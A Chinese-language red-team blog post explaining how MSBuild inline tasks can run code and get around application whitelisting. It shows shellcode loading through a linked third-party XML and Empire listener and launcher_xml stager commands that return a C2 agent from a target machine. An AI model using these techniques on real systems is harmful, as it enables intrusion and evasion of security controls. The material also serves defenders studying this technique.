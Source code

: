 ```yaml
---
layout:     post
title:    白名单-MSBUILD的利用
subtitle:   MSBUILD的利用
date:       2020-01-03
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 白名单
    - 红队
    - 内网渗透
---
```

# 白名单-MSBUILD的利用

## 简介
MSBuild能在没有安装vs的环境中编译.net的工程文件，能编译一些特定格式的xml文件。  
具体的可以看官方的文档：  
[https://docs.microsoft.com/zh-tw/visualstudio/msbuild/msbuild?view=vs-2015&redirectedfrom=MSDN](https://docs.microsoft.com/zh-tw/visualstudio/msbuild/msbuild?view=vs-2015&redirectedfrom=MSDN)  

## 测试
首先来几个简单的案例。  

### 编译生成可执行文件  
详细的内容还是看上看的官方文档。  
测试代码：  
```
using System;

namespace ForTest
{
    class Test
    {
        static void Main()
        {
            Console.WriteLine("test!");
        }
    }
}
```  
保存为test.cs。  
```
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
    <Target Name="Compile">
        <CSC Sources="test.cs" OutputAssembly="test.exe" />
    </Target>
</Project>
```
保存为test.csproj。  
这里的文件是什么后缀无所谓，只要符合xml格式就可以进行编译。  
因为msbuild没有加入环境变量，要给上全路径或者直接到对应目录下进行编译。  
```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\msbuild.exe test.csproj
```  
编译后会在对应目录下生成一个exe文件。  
运行以后会输出test。  
![200103_1](/img/200103_test.png)  

### 编译执行C#代码  
将需要执行的代码嵌入在xml中，后面也是基于这个去执行payload。  
来个简单的例子：  
```
<Project ToolsVersion="12.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">  
  <!-- This simple inline task does nothing. -->  
  <UsingTask  
    TaskName="DoNothing"  
    TaskFactory="CodeTaskFactory"  
    AssemblyFile="$(MSBuildToolsPath)\Microsoft.Build.Tasks.v12.0.dll" >  
    <ParameterGroup />  
    <Task>  
      <Reference Include="" />  
      <Using Namespace="" />  
      <Code Type="Fragment" Language="cs">  
      </Code>  
    </Task>  
  </UsingTask>  
</Project> 
```
这是官方的例子，我们在
```
<Code></Code>
```
中添加需要执行的代码。   
```
 <![CDATA[
         Console.WriteLine("test!");		
     ]]>
```
同样的这个文件后缀也无所谓，只要满足对应的xml语法就可以了。  
![200103_2](200103_test2.png)  

## 加载shellcode  
通过向xml中添加内嵌代码，用来加载shellcode。  
这里直接给出三好学生老师傅的代码。[https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml](https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml)  
将其中的shellcode替换掉。  
![200103_3](/img/200103_xml.png)  
保存为何种格式无所谓，直接通过msbuild编译。  
![200103_4](/img/200103_msbuildcsproj.png)  
也可以编译xml。  
![200103_5](/img/200103_msbulidxml.png)  
可以看到已经能上线了。  
![200103_6](/img/200103_beacon.png)  

## Empire
通过empire可以直接生成对应的xml文件，直接可以进行编译返回agent的操作。  
先listener。  
```
uselistener http
set Name test 
set Host http://xxx.xxx.xxx.xxx:xxxx
set Port xxxx
execute
```  
![200103_7](/img/200103_listener.png)  
然后生成对应的xml文件。  
```
usestager windows/launcher_xml
set Listener test
execute
```
![200103_8](/img/200103_empirexml.png)  
在靶机上执行：  
![200103_9](/img/200103_buildlaunch.png)  
可以看到返回一个angent。  
![201003_10](/img/200103_agent.png)  
后面可以继续用interact 命令去操作这个agent，这里不继续了。    

## 总结
msbuild的用法还有很多水平有限，有兴趣的可以去看看一些老师傅的文章。  

## 参考
[https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/](https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/)  
[https://www.hackingarticles.in/bypass-application-whitelisting-using-msbuild-exe-multiple-methods/](https://www.hackingarticles.in/bypass-application-whitelisting-using-msbuild-exe-multiple-methods/)  
